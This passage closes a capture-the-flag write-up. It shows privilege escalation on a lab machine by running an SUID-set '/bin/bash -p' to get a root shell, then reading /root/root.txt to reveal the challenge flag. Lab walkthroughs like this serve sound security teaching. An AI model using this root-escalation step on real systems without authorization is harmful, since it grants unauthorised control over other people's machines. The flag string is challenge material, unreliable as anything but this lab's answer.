 We can see that it's set with SUID and we should be able to just run it with the **-p** argument to launch a root shell:

`/bin/bash -p`

```bash
alex@ubuntu:/etc/mp3backups$ /bin/bash -p
bash-4.3# whoami
root
```

And displaying our final objective the **root.txt** file:

`cat /root/root.txt`

> flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}

<br>

And with that we've finished this CTF!

![](images/cyborg7.png)
